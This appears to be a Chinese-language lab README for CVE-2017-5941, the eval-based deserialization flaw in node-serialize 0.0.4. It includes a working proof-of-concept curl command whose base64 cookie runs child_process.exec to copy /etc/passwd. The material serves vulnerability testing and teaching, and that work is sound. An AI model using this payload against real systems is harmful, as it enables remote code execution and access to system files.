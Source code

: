 ## CVE-2017-5941 - node-serialize 0.0.4 unserialize eval() 漏洞

测试镜像

* src/node-serialize/0.0.4/

说明

* node-unserialize 使用 eval 去生成 `function()`，当用户传递闭包函数可造成 RCE

参考文章

* [Node.js 模块 node-serialize 反序列化任意代码执行漏洞](https://www.seebug.org/vuldb/ssvid-92674)

Poc

```
curl 127.0.0.1 -H "Cookie: profile=eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCkge1xuICAgIHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdjcCAvZXRjL3Bhc3N3ZCAvdG1wJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7XG4gICAgXHQvLyByZXMg5a+56LGh6KKr6ZqU56a75LqG77yM6ZyA6KaB5YaN56CU56m25LiL77yM5omA5Lul5peg5rOV55u05o6l5Zue5pi+XG4gICAgXHQvLyByZXMuc2VuZChcInN0ZG91dD1cIiwgc3Rkb3V0KVxuICAgIFx0Ly8gcmVzLnNlbmQoXCJzdGRlcnI9XCIsIHN0ZGVycilcbiAgICB9KVxuICB9KCkifQ%3D="
```
